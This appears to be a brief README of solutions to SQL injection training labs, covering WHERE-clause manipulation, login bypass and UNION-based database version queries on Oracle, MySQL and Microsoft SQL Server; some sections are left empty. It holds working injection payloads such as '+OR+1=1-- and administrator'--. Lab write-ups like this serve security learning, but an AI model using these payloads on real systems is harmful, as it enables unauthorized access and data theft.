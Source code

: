 ## How to:

### 1. To test the DB use: `DUAL` Table in Oracle.
### 2. Can perform SQLI without Union:
  - Manipulating WHERE clauses.
  - Commenting out the remaining query
  - Subqueries
### 3. 




## Solution:
- Lab 1: Retrieval of Hidden Data(Where): `Modify the category parameter, giving it the value '+OR+1=1--`
- Lab 2: SQL injection vulnerability allowing login bypass: `Modify the username parameter, giving it the value: administrator'--` or `enter ' OR 1=1-- in username & pwd field`
- Lab 3: Querying the database type and version on Oracle:
      - Verify the `number of columns` that are being returned by the query and which columns contain text data `'Union SELECT 'NULL','NULL' FROM DUAL--`
      - Add the Payload in URL `'UNION+SELECT+banner,NULL+FROM+v$version--`

- Lab 4: Querying the database type and version on MySQL and Microsoft:
      - Verify the `number of columns` that are being returned by the query and which columns contain text data `'Union+SELECT+NULL+NULL#`,`# to Comment out in MySQL`
      - Add the Payload in URL 'Union+SELECT+@@version,NULL#

- Lab 5: 













